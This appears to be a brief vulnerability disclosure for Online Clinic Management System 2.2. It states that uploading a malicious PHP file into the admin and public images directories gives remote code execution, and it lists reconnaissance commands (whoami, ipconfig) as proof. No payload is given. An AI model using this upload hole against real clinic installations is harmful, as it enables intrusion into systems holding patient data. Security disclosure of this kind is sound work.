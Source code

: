 # Exploit Title: Online Clinic Management System 2.2 - RCE
+ Vendor Homepage: https://bigprof.com
+ Software Download Link : https://bigprof.com/appgini/applications/online-clinic-management-system# 
+ Tested on: XAMPP / Windows 10
+ cause vuln : "..\ocms\admin\images"、"..\ocms\images" Uploading malicious php under this directory location can cause RCE

POC:
> whoami
> ipconfig
> mkdir book
> dir


https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/805de3b7-5b19-4db8-a2e1-f56e7038651f

